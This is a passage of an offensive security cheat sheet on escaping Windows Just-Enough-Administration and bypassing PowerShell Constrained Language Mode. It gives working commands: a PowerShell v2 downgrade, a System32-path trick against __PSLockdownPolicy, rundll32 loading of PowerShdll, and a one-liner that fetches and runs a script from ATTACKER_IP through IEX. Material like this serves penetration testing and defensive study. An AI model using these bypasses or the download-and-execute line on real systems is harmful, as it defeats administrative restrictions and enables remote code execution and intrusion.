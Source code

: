 > Just-Enough-Administration (JEA) is a feature in Microsoft Windows Server that allows administrators to delegate specific administrative tasks to non-administrative users. JEA provides a secure and controlled way to grant limited, just-enough access to systems, while ensuring that the user cannot perform unintended actions or access sensitive information.

Breaking out if JEA:
* List available cmdlets: `command`
* Look for non-default cmdlets:
    ```ps1
    Set-PSSessionConfiguration
    Start-Process
    New-Service
    Add-Computer
    ```


### Constrained Language Mode

Check if we are in a constrained mode: `$ExecutionContext.SessionState.LanguageMode`

* Bypass using an old Powershell. Powershell v2 doesn't support CLM.
    ```ps1
    powershell.exe -version 2
    powershell.exe -version 2 -ExecutionPolicy bypass
    powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"
    ```

* Bypass when `__PSLockDownPolicy` is used. Just put "System32" somewhere in the path. 
    ```ps1
    # Enable CLM from the environment
    [Environment]::SetEnvironmentVariable('__PSLockdownPolicy', '4', 'Machine')
    Get-ChildItem -Path Env:

    # Create a check-mode.ps1 containing your "evil" powershell commands
    $mode = $ExecutionContext.SessionState.LanguageMode
    write-host $mode

    # Simple bypass, execute inside a System32 folder
    PS C:\> C:\Users\Public\check-mode.ps1
    ConstrainedLanguage

    PS C:\> C:\Users\Public\System32\check-mode.ps1
    FullLanguagge
    ```

* Bypass using COM: [xpn/COM_to_registry.ps1](https://gist.githubusercontent.com/xpn/1e9e879fab3e9ebfd236f5e4fdcfb7f1/raw/ceb39a9d5b0402f98e8d3d9723b0bd19a84ac23e/COM_to_registry.ps1)
* Bypass using your own Powershell DLL: [p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) & [iomoath/PowerShx](https://github.com/iomoath/PowerShx) 
    ```ps1
    rundll32 PowerShdll,main <script>
    rundll32 PowerShdll,main -h      Display this message
    rundll32 PowerShdll,main -f <path>       Run the script passed as argument
    rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default)
    rundll32 PowerShdll,main -i      Start an interactive console in this console
